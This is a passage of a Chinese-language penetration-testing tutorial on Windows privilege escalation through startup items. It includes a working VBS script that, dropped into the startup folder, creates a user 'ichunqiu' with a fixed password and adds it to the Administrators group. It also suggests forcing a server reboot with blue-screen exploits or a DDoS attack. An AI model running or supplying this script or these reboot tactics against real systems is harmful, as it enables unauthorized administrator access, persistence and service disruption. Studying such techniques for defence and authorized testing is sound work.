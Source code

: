 - 等待一段时间即可创建成功

![image-20241030161238863](./assets/image-20241030161238863.png)

### 启动项提权

- 原理:将一段`vbs`脚本导入到`开机启动项`中,如果管理员`重启服务器`,那么就会`自动调用`该脚本,并`执行`其中的用户添加提权命令
- 利用条件:

```cmd
1.上传到目录必须具备可读写权限
2.调用的cmd也必须拥有足够的权限
3.重启服务器可以利用一些可导致服务器蓝屏的exp,或者ddos拒绝服务
```

- 提权方式:
  - 直接将vbs提权脚本上传到启动项目录下
  - 利用sql命令来进行vbs脚本的创建以及添加

#### 方法一

- 条件`c:/Documents and Settings/All Users/开始/程序/启动` 目录存在`可读写`权限
- 保存为`vbs文件`

```cmd
set wsnetwork=CreateObject("WSCRIPT.NETWORK") 
os="WinNT://"&wsnetwork.ComputerName 
Set ob=GetObject(os)         '得到adsi接口,绑定 
Set oe=GetObject(os&"/Administrators,group")       '属性,admin组 
Set od=ob.Create("user", "ichunqiu")         '建立用户 
od.SetPassword "123.com"        '设置密码 
od.SetInfo         '保存 
Set of=GetObject(os&"/ichunqiu",user)        '得到用户 
oe.add os&"/ichunqiu"
```

![image-20241028201357884](./assets/image-20241028201357884.png)
